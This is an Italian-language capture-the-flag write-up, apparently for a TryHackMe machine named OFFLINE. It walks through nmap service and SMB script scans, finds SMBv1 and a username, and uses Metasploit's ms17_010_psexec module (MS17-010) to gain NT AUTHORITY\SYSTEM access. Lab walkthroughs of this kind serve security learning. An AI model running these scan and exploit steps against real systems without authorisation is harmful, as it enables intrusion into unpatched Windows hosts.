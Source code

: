 # OFFLINE



## ENUMERAZIONE
avviamo una scansione sulla macchina
```bash
sudo nmap -sC -sV OFFLINE.thm
```

successivamente avviamo uno scan con i vari script di nmap per quanto riguarda smb
```bash
sudo nmap -sV -p 445 --script *smb* OFFLINE.thm
```

lo script ci restituisce un nome utente SCARRA e per quanto riguarda il server ci dice che l'smb gira con la versione SMBv1
molto utile perchè ci specifica una versione con vulnerabilità critiche andiamo ad analizzare meglio la vulnerabilità

## MS17-010

consente di inviare sul protocollo richieste smb che permettono successivamente all'utente di assumere privilegi di 
/NT-autority system e successivamente inviare codice come admin di sistema
usiamo questa vulnerabilità per entrare sul sistema 

avviamo metasploit
```bash
msfconsole
```
entriamo sull'exploit
```bash
use exploit/windows/smb/ms17_010_psexec
```
impostiamo tutte le infomazioni richieste dall'exploit e lanciamolo


BINGO! siamo dentro con l'utente NT-autority

